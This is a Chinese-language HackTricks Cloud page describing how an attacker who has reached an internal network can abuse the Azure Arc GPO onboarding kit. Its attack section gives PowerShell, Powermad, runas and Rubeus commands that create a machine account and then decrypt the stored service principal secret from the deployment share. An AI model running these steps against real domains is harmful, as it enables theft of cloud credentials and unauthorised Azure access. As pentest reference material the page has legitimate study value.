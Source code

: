# Az - Azure Arc易受攻击的GPO部署脚本

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

### 识别问题

Azure Arc允许使用组策略对象方法将新的内部服务器（加入域服务器）集成到Azure Arc中。为了方便这一过程，Microsoft提供了一个部署工具包，用于启动入职流程。在ArcEnableServerGroupPolicy.zip文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1和AzureArcDeployment.psm1。

执行DeployGPO.ps1脚本时，会执行以下操作：

1. 在本地域内创建Azure Arc服务器入职GPO。
2. 将EnableAzureArc.ps1入职脚本复制到为入职流程创建的指定网络共享中，该共享还包含Windows安装程序包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId**和**ServicePrincipalClientSecret**。此外，还需要提供其他参数，如域、托管共享的服务器的FQDN和共享名称。还必须向脚本提供租户ID、资源组和其他必要信息。

使用DPAPI-NG加密在指定共享的AzureArcDeploy目录中生成加密的秘密。加密的秘密存储在名为encryptedServicePrincipalSecret的文件中。可以在DeployGPO.ps1脚本中找到此操作的证据，加密是通过使用$descriptor和$ServicePrincipalSecret作为输入调用ProtectBase64来执行的。描述符由域计算机和域控制器组SID组成，确保ServicePrincipalSecret只能被域控制器和域计算机安全组解密，如脚本注释中所述。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### 攻击

我们有以下条件：

1. 我们已成功渗透内部网络。
2. 我们有能力创建或控制活动目录中的计算机帐户。
3. 我们发现了一个包含AzureArcDeploy目录的网络共享。

有几种方法可以在AD环境中获取机器帐户。其中最常见的方法之一是利用机器帐户配额。另一种方法涉及通过易受攻击的ACL或其他各种错误配置来 compromise 机器帐户。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器帐户，就有可能使用该帐户进行身份验证。我们可以使用带有netonly标志的runas.exe命令，或者使用Rubeus.exe进行票据传递。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过在内存中存储我们计算机帐户的TGT，我们可以使用以下脚本来解密服务主体密码。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

此时，我们可以从存储在与encryptedServicePrincipalSecret文件相同的网络共享上的ArcInfo.json文件中收集连接到Azure所需的剩余信息。该文件包含诸如：TenantId、servicePrincipalClientId、ResourceGroup等详细信息。有了这些信息，我们可以使用Azure CLI来作为受损的服务主体进行身份验证。

## 参考资料

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
